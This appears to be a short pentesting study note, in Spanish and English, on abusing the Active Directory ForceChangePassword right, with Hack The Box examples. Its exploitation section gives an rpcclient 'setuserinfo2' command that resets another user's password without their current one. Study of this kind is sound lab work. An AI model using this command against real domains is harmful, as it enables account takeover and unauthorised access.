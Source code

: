 If we have `ExtendedRight` on `User-Force-Change-Password` object type, we can reset the user's password without knowing their current password.

CHECK [[FORCECHANGEPASSWORD CAPABILITY]] IN BLOODHOUND DIRECTORY.

#### Mas información
* **BUEN RECURSO**: https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword
* https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html

## EXPLOTAITION

![[Pasted image 20230216155310.png]]

1. Necesitamos credenciales de RPC Client:

```
rpcclient -U <<DOMAIN>>/<<USUARIO>> <<IP DOMAIN>>
rpcclient $> setuserinfo2 <<USUARIO AL QUE QUEREMOS CAMBIAR LA PAS>> 23 <<NUEVA CONTRASEÑA>>
```

## MACHINES

* Hack The Box: Object, Blackfield
